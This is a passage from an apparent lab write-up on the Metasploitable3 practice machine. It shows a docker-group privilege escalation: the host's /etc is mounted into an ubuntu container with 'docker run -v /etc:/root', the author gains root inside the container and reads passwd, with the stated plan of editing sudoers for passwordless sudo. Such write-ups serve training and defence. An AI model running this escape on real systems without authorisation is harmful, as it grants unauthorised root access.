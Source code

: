 #### Gaining root taking advantage to the docker group

With user boba_fett in the docker group, we can issue docker commands without any restrictions. I will use docker command `docker images` to list the docker images on the system

```
boba_fett@metasploitable3-ub1404:~$ docker images
REPOSITORY                  TAG                 IMAGE ID            CREATED             SIZE
7_of_diamonds               latest              5e45125fa132        20 months ago       84.2MB
ubuntu                      latest              735f80812f90        20 months ago       83.5MB
krustyhack/docker-privesc   latest              6b5ae09db018        2 years ago         3.97MB
boba_fett@metasploitable3-ub1404:~$ 
```

From this printout I can see we have an `Ubuntu` image on the system. The attack vector that straight away comes to mind to is to map the `/etc/` directory to a directory `/root/` within the docker container. Within the container, I'll have access as root and be able to add user `boba_fett` into the sudoers file so he can issue all commands with the `sudo` without knowing his passwprd and therefore go on the get a root shell using `sudo bash`.

To run a container and mount the `/etc` directory, I will use the following command, `docker run -dit -v /etc:/root ubuntu` and I can check the running container using `docker ps`

```
boba_fett@metasploitable3-ub1404:~$ docker run -dit -v /etc:/root ubuntu
5918a86e9463068479143edc7217831b17929096a80c82a330d2c3b5c6bfcac6
boba_fett@metasploitable3-ub1404:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
5918a86e9463        ubuntu              "/bin/bash"         16 seconds ago      Up 5 seconds                            cocky_wozniak
753bae4795cf        7_of_diamonds       "/bin/bash"         20 months ago       Up 5 hours                              7_of_diamonds
boba_fett@metasploitable3-ub1404:~$ 

```

We have our ubuntu container with id `5918a86e9463` running. Next step is to connect to our docker container, edit the suders file and insert details for boba_fett to be able to issue commands with sudo without entering his password(which we don't know). 

```
boba_fett@metasploitable3-ub1404:~$ docker exec -it 5918a86e9463 /bin/bash
root@5918a86e9463:/# id
uid=0(root) gid=0(root) groups=0(root)
root@5918a86e9463:/# pwd
/
root@5918a86e9463:/# cd /root
root@5918a86e9463:~# cat passwd | grep boba_fett
boba_fett:x:1121:100::/home/boba_fett:/bin/bash
root@5918a86e9463:~# 
```

From the printout above, it's clear we have root access in the docker container and have successfully mounted the `/etc/` directory in the `root` directory. A simple grep on the `passwd` file, we can found our user's name. 
